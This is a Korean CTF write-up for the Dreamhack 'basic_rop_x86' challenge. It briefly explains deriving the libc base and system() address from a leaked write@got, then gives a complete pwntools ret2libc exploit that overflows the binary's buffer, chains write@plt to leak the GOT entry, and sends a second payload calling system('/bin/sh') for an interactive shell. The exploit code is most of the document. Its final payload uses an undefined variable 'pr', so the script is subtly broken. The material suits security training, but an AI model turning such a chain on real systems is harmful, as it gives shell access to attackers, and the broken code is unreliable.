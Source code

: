 ### 3. system 주소

우리는 write@got를 출력하면서 해당 값을 받아 올 수 있었다. 이 값을 write의 offset값으로 뺀다면 **libc_base**를 구할 수 있다.

그리고, libc_base에 system의 offset을 더한다면 system의 주소를 구할 수 있게 된다.

```python
lb = write - libc.symbols['write']
bin_sh = lb + binsh_offset
system = lb + libc.symbols['system']
```

### Payload

```python
from pwn import *    

p = remote('host3.dreamhack.games', 14977)
e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')
r = ROP(e)

write_plt = e.plt['write']
write_got = e.got['write']
main = e.symbols['main']

pppr = 0x08048689
binsh_offset = list(libc.search(b'/bin/sh\x00'))[0]

# [1] Read Got Leak

payload = b'A' * 0x48
payload += p32(write_plt)
payload += p32(pppr)
payload += p32(1) + p32(write_got) + p32(4) + p32(main)

p.send(payload)
write = u32(p.recvuntil(b'\xf7')[-4:])

# [2] System

lb = write - libc.symbols['write']
bin_sh = lb + binsh_offset
system = lb + libc.symbols['system']
log.info(hex(write))
log.info(hex(system))

# [3] Exploit

payload = b'A' * 0x48
payload += p32(system) + p32(pr) + p32(bin_sh) # system('/bin/sh')

p.send(payload)
p.interactive()
```

